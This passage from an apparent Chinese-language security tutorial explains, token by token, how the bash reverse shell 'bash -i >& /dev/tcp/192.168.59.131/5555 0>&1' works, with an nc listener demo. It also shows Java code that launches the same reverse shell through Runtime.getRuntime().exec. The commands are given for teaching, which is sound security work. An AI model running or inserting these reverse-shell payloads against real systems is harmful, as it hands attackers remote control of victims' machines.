 | 命令                            | 含义                                                         |
| ------------------------------- | ------------------------------------------------------------ |
| bash                            | 执行/bin/bash程序                                            |
| -i                              | 创建一个交互式bash，这个交互式shell有标准输入、标准输出、标准错误 |
| >& /dev/tcp/192.168.59.131/5555 | >&用于将其前面的内容(bash -i)与后面的内容混合在一起交给它后面的内容(/dev/tcp/192.168.59.131)。若无该指令则无法将bash转变为webshell。至于这里使用&操作符的原因类似于对标准输入、标准输出使用该操作符的原因一样，/dev/tcp/192.168.59.131/5555指向了一个socket连接，而磁盘上从未出现过/dev/tcp/192.168.59.131/5555这个文件 |
| /dev/tcp/192.168.59.131/5555    | Linux中无论是文档，还是各种硬件设备，只要是资源，就都看作文件。/dev/tcp/ip/port则指的是一个发往指定ip和port的tcp连接资源。如果在文件系统中实际去看的话，/dev/目录下实际上是没有tcp文件夹的，打开该目录下的文件相当于建立一次socket连接。<br/>在192.168.59.131上运行nc -lvvp 5555<br/>在192.168.59.130上运行 echo "233333" > /dev/tcp/192.168.59.131/5555<br/>在192.168.59.131的监听中可以收到发来的"233333" |
| 0>&1                            | 0是标准输入，1是标准输出，>为输出重定向符用于指定新的设备代替显示器作为新的输出设备<br/>常规情况下是将标准输出重定向到某个文件，如1>app.log，这样标准输出就指向了app.log文件<br/>而标准输入和标准输出实际上已经有自己指向的文件，所以需要用&取其真实文件名，因为当前工作目录下没有文件名为0、1、2的文件<br/>若无该指令，攻击方只能发送指令但不能接收执行结果，被攻击方在该bash中的键盘输入也会发送给攻击方 |

* `>& /dev/tcp/192.168.59.131/5555`与`0>&1`不能交换位置

  * 若不颠倒顺序

    * 执行原理：因为首先将标准输出重定向到socket上面，然后再将标准输入重定向到标准输出，就可以将标准输入和标准输入全部重定向到socket上面
    * 执行效果：靶机失去该bash的标准输入、标准输出的控制器，无法通过Ctrl+C终端该进程，因为该bash的标准输入已经重定向到socket上面。攻击机可以输入指令，输入完成后点击回车，会将用户输入的指令和指令的处理结果回显到屏幕上。

    ![image-20210819164638854](https://monkeydatabase.github.io/img/image-20210819164638854.png)

  * 如果颠倒顺序

    * 执行原理：按照命令顺序，首先将标准输入重定向到标准输出，此时标准输入和标准输出都是同一个设备/dev/pts/0，然后再将标准输出重定向到socket，那么就只有标准输出反弹到了攻击机，标准输入还保留在靶机上
    * 执行效果：攻击机除了显示内容，无法对bash进行任何操作。靶机所输入的内容会实时显示到攻击机，靶机输入指令可以正常执行并且结果回显到攻击机，然而靶机毫无回显。

    ![image-20210819164805700](https://monkeydatabase.github.io/img/image-20210819164805700.png)

### 4、java.lang.Runtime.getRuntime().exec()执行有哪些常用Payload，为什么有些Payload会不生效？

* Payload在Java中生效

  ```java
  import java.io.IOException;
  
  public class Sample {
      public static void main(String[] args) {
          try {
              Runtime.getRuntime().exec(
                  new String[]{"/bin/bash",
                               "-c", 
                               "bash -i >& /dev/tcp/192.168.59.131/5555 0>&1"});
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  }
  ```

  ![image-20210820105158824](https://monkeydatabase.github.io/img/image-20210820105158824.png)

  * 直接传入字符串数组后，不会再次对其使用间隔符间隔符进行分割，从而保证了"bash -i >& /dev/tcp/192.168.59.131/5555 0>&"作为一个完整的参数传输给/bin/bash作为bash脚本解析指向
